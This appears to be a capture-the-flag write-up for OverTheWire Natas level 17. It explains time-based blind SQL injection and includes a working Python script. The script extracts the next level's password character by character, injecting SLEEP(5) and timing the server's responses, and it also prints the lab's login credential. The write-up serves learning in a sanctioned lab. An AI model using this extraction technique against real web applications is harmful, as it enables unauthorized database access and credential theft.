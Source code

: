 Another SQL injection challenge.

This level is different from level 15, as the website does not return anything to the screen because the `echo` commands is in comments.

I have to find other ways to know whether a username is existing.

I can try applying 'Time-based blind SQL injection', it means adding a sleep() when the return value is true, to distinguish it from the false one.

Write a short Python script like the previous level:

```python
import requests
import string
import sys

url = 'http://natas17.natas.labs.overthewire.org/'
username = 'natas17'
password = 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC'

characters = string.ascii_letters + string.digits

passwordFound = ''

sql1 = 'natas18" AND password LIKE BINARY "'
sql2 = '"AND SLEEP(5)-- ' 

s = requests.Session()
s.auth = (username, password)

while len(passwordFound) < 32:
    for char in characters:
        payload = sql1 + passwordFound + char + '%' + sql2
        data = {'username': payload}
        response = s.post(url, data=data)
        if response.elapsed.total_seconds() >= 5:
            passwordFound += char
            print(passwordFound)
            break
```
